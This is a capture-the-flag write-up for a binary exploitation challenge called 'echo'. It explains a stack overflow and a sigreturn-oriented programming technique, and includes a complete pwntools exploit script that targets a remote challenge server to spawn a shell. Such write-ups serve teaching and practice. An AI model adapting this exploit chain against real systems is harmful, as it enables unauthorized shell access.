

## 0x41414141 CTF: echo [pwn]
> tell me something to say it back

#### I solved the challenge after the ctf ended. We were given only a binary to work with and upon reversing reveals only a few things. It reads input and prints it out using syscalls then exits. There are only little gadgets to work with, but we do have a /bin/sh string in memory. The read syscall reads in 0x300 bytes of input into a 0x188 sized buffer thus we have an overflow.

#### The solution was to perform a sigrop attack, similar to the moving signals challenge. But the catch here is that we have no gadget to set the rax register. What we do then is to do a rop first back into the beginning of the echo function (function that gets user input) and provide only 15 bytes of input. This way, the read syscall sets the rax register into the amount of bytes that was provided in the input. We will also place the fake sigreturn frame on the stack before the rop so that the proper registers will be set. 

```python
from pwn import *

#: CONNECT TO CHALLENGE SERVERS
binary = ELF('./echo', checksec = False)

#p = process('./echo')
p = remote("161.97.176.150", 9090)

#: GDB SETTINGS
breakpoints = ['break *echo']
#gdb.attach(p, gdbscript = '\n'.join(breakpoints))

#: EXPLOIT INTERACTION STUFF
syscall = 0x0000000000401022

#: PWN THY VULNS
context.binary = binary
sigframe = SigreturnFrame()
sigframe.rax = 0x3b
sigframe.rdi = 0x401035
sigframe.rsi = 0 
sigframe.rdx = 0
sigframe.rip = syscall

exploit = cyclic(392)
exploit += p64(binary.symbols['echo']) #: GETS USER INPUT AGAIN
exploit += p64(syscall) #: SEND 15 BYTES ON THE USER INPUT TO SET RAX TO 0xF
exploit += str(sigframe)

#: SEND THE EXPLOIT CHAIN THEN MANUALLY SEND 15 BYTES OF DATA TO POP A SHELL
p.send(exploit)
p.interactive()
```

